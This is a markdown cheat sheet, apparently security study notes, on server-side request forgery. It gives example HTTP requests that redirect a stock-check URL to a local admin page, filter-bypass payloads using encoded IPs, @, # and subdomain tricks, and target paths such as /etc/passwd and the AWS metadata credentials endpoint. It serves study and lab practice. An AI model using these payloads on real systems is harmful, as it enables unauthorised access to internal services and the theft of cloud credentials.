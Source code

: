 <!--
 * This file is part of RS Cheat Sheets.
 *
 * RS Cheat Sheets is free software: you can redistribute it and/or modify
 * it under the terms of the GNU General Public License as published by
 * the Free Software Foundation, either version 3 of the License, or
 * (at your option) any later version.
 *
 * RS Cheat Sheets is distributed in the hope that it will be useful,
 * but WITHOUT ANY WARRANTY; without even the implied warranty of
 * MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
 * GNU General Public License for more details.
 *
 * You should have received a copy of the GNU General Public License
 * along with RS Cheat Sheets. If not, see <https://www.gnu.org/licenses/>.
 */
-->

[Home](../README.md)

Need to research Blind SSRF vulnerabilities on portswigger.net
Sometimes the server checks for headers for links.

# Server Side Request Forgery(SSRF)

SSRF happens when a server accepts arguments in the form of URLs or URL paths which can allow an attacker to trick the server into loading URLs that it normally wouldn't want to.
- Cause the server to send back information from other internal servers
- Cause the server to connect to an attacker's eternal websites

Ex: A website accepts a URL as an argument in its body
```
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://stock.weliketoshop.net:8080/product/stock/check%3FproductId%3D6%26storeId%3D1
```

The URL argument can be modified to point to `/admin`, which gives access to the admin page for the attack.
```
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://localhost/admin
```

The attacker wouldn't normally have access to this page, but because the server itself goes to that path, it does have access and then sends the page to the client/attacker.
- You can often go to certain pages, but you won't be given access. This is a way to get around that.
- It is a way to get around restricted sites.

## Common domains
- `localhost`
- loopback addresses: `127.0.0.1` - `127.255.255.255`
- private addresses: `10.0.0.0` - `10.255.255.255.255`, `172.16.0.0` - `172.31.255.255`, and `192.168.0.0` - `192.168.255.255`
	- You have to check each of these individually because you don't know what other devices are on their private network

## Get around common SSRF filters
- Alternatives to `127.0.0.1` like `2130706433`(decimal representation), `017700000001`(octal representation), or `127.1`.
- Register a domain name that resolves to `127.0.0.1`
	- Use A record
	- Try changing protocols from `https` to `http`
- URL encoding or case variation
	- It is often worth trying to double encode special characters. Like `#` double encoded as `%2523` or `:` as `%253A`

Sometime SSRF filter only allow URLs that contain or start with permitted values. Here are some tips to get around that:
- Using the @ symbol so the username or password can bypass the filter, but not change the actual domain. This takes the format of `username:password@domain`
	- Ex: `https://permitted-value:fakepassword@127.0.0.1` or `https://fakeusername:permitted-value@127.0.0.1`
	- Sometimes arguments take in URL paths and concatenate those paths onto the `localhost`
		- Ex: `http://localhost:80 + parameter` or `http://localhost + parameter`
		- parameter = `@197.168.0.12/admin` or `:fakepassword@197.168.0.12/admin`
		- Output = `http://localhost:80@197.168.0.12/admin` or `http://localhost:fakepassword@197.168.0.12/admin`
- Using the # symbol so the permitted value is in the fragment identifier and thus passes the filter, but doesn't change the domain.
	- Ex: `https://127.0.0.1#permitted-value`
	- This works if the URL needs to contain one of the permitted values, but doesn't need to start with it.
- Using sub-domains so the permitted-value is in the subdomain, but doesn't effect the actual domain being searched.
	- Ex: `https://permitted-value.127.0.0.1`
- You can combine each of these approaches
	- Ex: `http://localhost%2523username@stock.weliketoshop.net/admin`

## Common files to search for
- /etc/passwd
- http://169.254.169.254/latest/meta-data/iam/security-credentials/admin
	- It might not be admin. It could be any other file name. Maybe try a brute force attack to try all combinations.
		- Try s3access, role, ec2-instance, web-server, lambda-executor, default-role